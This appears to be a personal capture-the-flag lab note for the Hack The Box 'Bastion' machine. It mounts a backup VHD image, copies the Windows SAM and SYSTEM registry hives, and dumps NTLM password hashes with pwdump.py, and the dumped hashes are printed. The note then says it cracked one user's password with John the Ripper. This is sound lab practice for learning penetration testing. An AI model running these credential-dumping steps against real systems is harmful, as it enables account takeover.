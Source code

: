 # Mounting VHD image
Mounting VHD image on local kali VM via guestmount tool using command `guestmount -a 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -m /dev/sda1 --ro ~/Dropbox/Documents/htb/boxes/Bastion/mount` [method](https://serverok.in/how-to-open-a-vhd-or-vhdx-file-in-linux)
![[Pasted image 20210714110734.png]]
## Copying SAM file to local kali VM
Copying SAM and SYSTEM file to local kali VM found in `/Windows/System32/config` .
![[Pasted image 20210714111426.png]]
## Using pwdump.py to dump hashes
Used `python3 /usr/share/creddump7/pwdump.py SYSTEM SAM` to dump hashes to a file.
```bash
❯ python3 /usr/share/creddump7/pwdump.py SYSTEM SAM  | tee hash.hash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
## Cracked password for 'L4mpje' user
Cracked password for 'L4mpje' user via JohnTheRipper.
![[Pasted image 20210714121401.png]]


